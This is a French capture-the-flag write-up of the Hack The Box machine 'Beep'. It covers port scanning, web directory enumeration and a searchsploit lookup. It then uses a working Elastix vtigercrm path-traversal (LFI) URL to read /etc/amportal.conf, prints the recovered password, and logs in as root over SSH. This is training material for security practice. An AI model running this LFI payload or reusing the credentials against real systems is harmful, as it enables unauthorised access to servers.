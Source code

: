 # FootHold

La première chose que je fais que je m'attaque à une box HTB c'est d'ajouter la résolution de nom <box>.htb à mon fichier /etc/hosts:

`echo "10.129.152.59	beep.htb"`

## Enumération des ports 

Scannons d'abords tout les ports:

`nmap 10.129.151.94 -p-` 

```
PORT      STATE SERVICE
22/tcp    open  ssh
25/tcp    open  smtp
80/tcp    open  http
110/tcp   open  pop3
111/tcp   open  rpcbind
143/tcp   open  imap
443/tcp   open  https
944/tcp   open  unknown
993/tcp   open  imaps
995/tcp   open  pop3s
3306/tcp  open  mysql
4190/tcp  open  sieve
4445/tcp  open  upnotifyp
4559/tcp  open  hylafax
5038/tcp  open  unknown
10000/tcp open  snet-sensor-mgmt
```

Nous effectuons maintenant un scan plus complet sur les ports désignés (option -p):

`nmap 10.129.151.94 -p 22,25,80,110,111,143,443,944,993,995,3306,4190,4445,4559,5038,10000 -A `

```
22/tcp    open  ssh        OpenSSH 4.3 (protocol 2.0)
| ssh-hostkey: 
|   1024 ad:ee:5a:bb:69:37:fb:27:af:b8:30:72:a0:f9:6f:53 (DSA)
|_  2048 bc:c6:73:59:13:a1:8a:4b:55:07:50:f6:65:1d:6d:0d (RSA)
25/tcp    open  smtp?
|_smtp-commands: beep.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, ENHANCEDSTATUSCODES, 8BITMIME, DSN, 
80/tcp    open  http       Apache httpd 2.2.3
|_http-server-header: Apache/2.2.3 (CentOS)
|_http-title: Did not follow redirect to https://10.129.151.94/
|_https-redirect: ERROR: Script execution failed (use -d to debug)
110/tcp   open  pop3?
111/tcp   open  rpcbind    2 (RPC #100000)
143/tcp   open  imap?
443/tcp   open  ssl/https?
|_ssl-date: 2021-05-25T14:38:08+00:00; 0s from scanner time.
944/tcp   open  status     1 (RPC #100024)
993/tcp   open  imaps?
995/tcp   open  pop3s?
3306/tcp  open  mysql?
|_mysql-info: ERROR: Script execution failed (use -d to debug)
4190/tcp  open  sieve?
4445/tcp  open  upnotifyp?
4559/tcp  open  hylafax?
5038/tcp  open  asterisk   Asterisk Call Manager 1.1
10000/tcp open  http       MiniServ 1.570 (Webmin httpd)
|_http-server-header: MiniServ/1.570
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
```

## Site Web http:// deep.htb  et https:// deep.htb

Le site force l'usage d'HTTPS, il n'y a donc "rien à voir" sur le port 80 et nous sommes redirigés vers le port 443.

Il s'agit d'Elastix: 
![elastix](_ressource/Screenshot_20210526_095805.png)

### Enumération Web 

Pour se faire, j'utilise gobustrer, que je trouve très puissant (en terme de rapidité) et très complet (en termes d'options).

```
# Version "complete" installé via Github
gobuster dir -u https://deep.htb -w /usr/share/wordlists/SecLists-master/Discovery/Web-Content/directory-list-2.3-medium.txt -x html,php,txt -k

# Version "short" installé via apt

gobuster -u https://deep.htb -w /usr/share/wordlists/SecLists-master/Discovery/Web-Content/directory-list-2.3-medium.txt -x html,php,txt -k
```

_NB: Ne pas oublier l'option -k qui permet d'utiliser le mode "insecure" et donc d'ingorer les certificats SSL du site HTTPs._

```
/index.php (Status: 200)
/images (Status: 301)
/help (Status: 301)
/register.php (Status: 200)
/themes (Status: 301)
/modules (Status: 301)
/mail (Status: 301)
/admin (Status: 301)
/static (Status: 301)
/lang (Status: 301)
/config.php (Status: 200)
/robots.txt (Status: 200)
/var (Status: 301)
/panel (Status: 301)
/libs (Status: 301)
/recordings (Status: 301)
/configs (Status: 301)
```

Après avoir fouillé un peu partout il ne semble pas y avoir de choses intéressantes à première vue.


### Recherche de faille:

Lorsqu'il s'agit de rechercher une faille, j'aime utiliser l'outil "searchsploit" disponible sur Kali.

`searchsploit elastix`

Parmis les failles proposés, celle qui me semble pour l'instant intéressante est la (LFI sur le graph.php)[https://www.exploit-db.com/exploits/37637].

> LFI Exploit: /vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action

On se rend donc sur la page: https://deep.htb/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action

L'affichage n'est pas optimal, pour y voit plus clair: `CTRL + U` pour afficher le code source

[img](_ressource/ctrl.png)

On voit que le mot de passe suivant est utilisé un peu partout: **jEhdIekWmdjE**


# Root

## Accès SSH

Lorsque qu'on essaie de se connecter à l'utilisateur root via ssh (et le mot de passe: jEhdIekWmdjE ) un message d'erreur apparaît:

```
ssh root@beep.htb

Unable to negotiate with 10.129.152.59 port 22: no matching key exchange method found. Their offer: diffie-hellman-group-exchange-sha1,diffie-hellman-group14-sha1,diffie-hellman-group1-sha1`
```

Pour régler ce problème:

`echo "KexAlgorithms +diffie-hellman-group1-sha1" >> ~/.ssh/config`

**NB**: On n'oubliera pas d'effacer ce fichier/cette ligne à la fin du CTF.

Il est maintenant possible de se connecter en root.
